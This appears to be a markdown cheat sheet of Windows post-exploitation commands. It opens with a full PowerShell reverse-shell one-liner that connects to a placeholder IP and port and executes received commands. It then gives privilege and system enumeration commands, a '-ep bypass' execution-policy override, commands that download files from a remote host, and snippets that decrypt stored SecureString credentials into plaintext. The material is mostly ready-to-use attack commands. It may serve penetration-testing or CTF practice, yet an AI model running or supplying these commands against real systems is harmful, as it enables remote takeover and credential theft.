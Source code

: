 ## getting a reverse shell:-
powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" (via powershell)

## first move to a powershell:-
powershell.exe

## then the obvious:-
whoami<br />
echo %username% (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
$ENV:USERNAME (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
whoami /priv<br />
net user<br />
net localgroup Administrators<br />
Get-ExecutionPolicy<br />
powershell.exe -ep bypass (to set execution policy to bypass)<br />
Get-Host | Select-Object Version (to check the whole version of powershell)<br />
$PSVersionTable.PSVersion.Major (to check the version of powershell)


## About the system and proccess running:-
systeminfo<br />
tasklist<br />
([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator) (to check if you r admin or not)<br />
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1") (to check for smb version 1)<br />

## Locate files in the whole drive
dir filename.extension /s (do it from C:\ folder)(supports regex)

## Unhide directories and files
* attrib -h -r -s /s /d C:\*.* (The C drive can be changed to any drive of your choice)
* GCI alias Get-ChildItem
    1. -Recurse       - It digs deep into the child dir.           
    2. -Force or -FO  - It shows the hidden dir too. 
    #### usage example 
        gci c:/ -recurse -force 
<br />

## To Download somthing from the internet or intranet:-
powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")<br />
powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name > Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

$credential = Import-CliXml -Path  PathToXml\MyCredential.xml <br />
$credential.GetNetworkCredential().Password <br />

### If you have a single string

$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString <br />
[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))
